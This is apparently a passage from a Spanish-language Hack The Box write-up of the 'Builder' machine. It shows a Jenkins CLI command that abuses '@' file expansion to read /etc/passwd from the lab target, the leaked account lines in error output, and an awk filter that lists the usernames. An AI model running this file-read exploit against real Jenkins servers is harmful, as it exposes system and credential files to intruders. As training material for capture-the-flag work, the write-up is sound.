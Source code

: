  ```bash
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.
```
Si queremos ver que comando tiene más lineas voy a ejecutar un pequeño script que he creado para que me ejecute todas las instrucciones y vea que instrucción me devuelve más líneas.

![](/assets/images/htb-writeup-builder/3.png)

También podemos utilizar este comando  para que saque solo los nombres.
```bash
❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ offline-node @/etc/passwd 2>&1 | awk -F: '$1 ~ /^[a-z]+$/ { sub(/:.*No such agent.*/, "", $0); print $0 }'

root
mail
backup
nobody
lp
uucp
bin
news
proxy
irc
list
jenkins
games
man
daemon
```
